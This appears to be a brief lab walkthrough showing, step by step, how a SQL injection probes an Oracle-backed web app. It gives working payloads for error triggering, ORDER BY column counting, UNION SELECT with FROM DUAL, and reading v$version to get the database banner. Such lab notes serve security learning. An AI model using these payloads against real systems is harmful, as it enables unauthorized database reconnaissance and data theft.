 # SQL-injection-attack-querying-the-database-type-and-version-on-Oracle

(1) To be sure that it has an sql vulnerability: url' -> internal server error. That means it has a vulnerability
(2) To know the number of column: 'ORDER BY 3-- -> internal server error. It means there are 2 columns
(3) To know which column is data retrieving: ‘UNION SELECT NULL,'Data'--. But got error. It is because the database is oracle 
(4) To know data retrieve in oracle database: 'UNION SELECT 'sajib','rajib' FROM DUAL--. See we find out 2 both 2 column are retrieving data
(5) To know the version of oracle database: 'UNION SELECT banner, banner FROM v$version--. Here two banner is for the 2 columns.
